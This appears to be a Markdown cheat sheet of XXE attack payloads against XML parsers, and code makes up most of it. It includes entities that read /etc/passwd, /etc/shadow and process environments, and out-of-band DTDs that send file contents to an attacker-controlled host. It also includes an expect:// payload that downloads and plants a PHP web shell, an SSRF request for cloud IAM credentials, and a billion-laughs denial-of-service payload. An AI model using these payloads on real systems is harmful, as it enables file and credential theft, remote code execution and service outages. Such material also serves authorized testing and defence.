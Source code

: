 
# XXE Attacks 


## Reading Sensitive Files

### using DTD
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### using Xinclude
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>


<?xml version="1.0" encoding="UTF-8"?>
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <!-- Attempt to include a local file (e.g., /etc/passwd) -->
  <xi:include parse="text" href="file:///etc/passwd"/>

  <!-- Attempt to include a local file (e.g., /etc/shadow) -->
  <xi:include parse="text" href="file:///etc/shadow"/>

  <!-- Attempt to include the environment variables of the current process -->
  <xi:include parse="text" href="file:///proc/self/environ"/>

  <!-- Attempt to include a remote server to perform SSRF (Server-Side Request Forgery) -->
  <xi:include parse="text" href="http://attacker.com/malicious_file"/>

  <!-- Example of leveraging XXE for potential DDoS or DoS by loading a large file -->
  <xi:include parse="text" href="file:///path/to/large/file"/>
</foo>

```

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.


## Read file contains some of XML's special characters

#### PHP wrapper 

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

#### CDATA Mehtod


```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.
- To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined,as follows:


- payload 
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<email>&joined;</email> 
```
- xxx.dtd
```xml
<!ENTITY joined "%begin;%file;%end;">
```


## Blind XXE 

#### Error Based XXE



##### using external dtd file 
- payload 
 ```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- xxx.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
#### Exploiting blind XXE (error based) by repurposing a local DTD [source](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) and [portswigger](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

 invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing: 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```


#### Out-of-band Data Exfiltration

- payload 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- xxe.dtd
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
OR 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

## RCE 

###  look for `ssh` keys

### PHP Wrappers
#### php://filter 
- https://github.com/synacktiv/php_filter_chain_generator
#### php://expect 
- expect://id  (output may break xml syntax  , we may have not access to the output)  

-  payload   (best practice )
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- shell.php file 
```php
<?php system($_REQUEST["cmd"]);?>
```

- out of band
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=expect://cat$IFS/*.txt">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://IP:PORT/?c=%file;'>">
```



## SSRF 
 - get API metadata 
```xml
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
```



## DOS Attack
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

